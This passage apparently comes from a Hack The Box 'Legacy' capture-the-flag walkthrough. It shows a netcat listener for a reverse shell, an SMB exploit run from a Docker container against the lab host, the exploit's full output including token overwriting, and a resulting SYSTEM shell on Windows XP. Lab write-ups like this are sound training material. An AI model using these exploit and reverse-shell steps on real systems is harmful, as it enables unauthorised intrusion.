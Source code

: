 Set up the listener ready for the callback: `sudo rlwrap nc -lnvp 443`

Now run it:

```bash
──(rxhackk㉿kali)-[~/…/HTB/BOXES/LEGACY/workingv2]-[tun0: 10.10.16.2]
└─$ docker run -it bluexp
Trying to connect to 10.10.10.4:445
Target OS: Windows 5.1
Using named pipe: browser
Groom packets
attempt controlling next transaction on x86
success controlling one transaction
modify parameter count to 0xffffffff to be able to write backward
leak next transaction
CONNECTION: 0x81f19cb0
SESSION: 0xe11b7bd8
FLINK: 0x7bd48
InData: 0x7ae28
MID: 0xa
TRANS1: 0x78b50
TRANS2: 0x7ac90
modify transaction struct for arbitrary read/write
make this SMB session to be SYSTEM
current TOKEN addr: 0xe17d91b0
userAndGroupCount: 0x3
userAndGroupsAddr: 0xe17d9250
overwriting token UserAndGroups
Sending file C1HC8I.exe...
Opening SVCManager on 10.10.10.4.....
Creating service CmRK.....
Starting service CmRK.....
The NETBIOS connection with the remote host timed out.
Removing service CmRK.....
ServiceExec Error on: 10.10.10.4
nca_s_proto_error
Done
```

And while we are watching the listener in another terminal...

Success!

```bash
┌──(rxhackk㉿kali)-[~]-[tun0: 10.10.16.2]
└─$ sudo rlwrap nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.16.2] from (UNKNOWN) [10.10.10.4] 1032
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>
```

## FLAGS
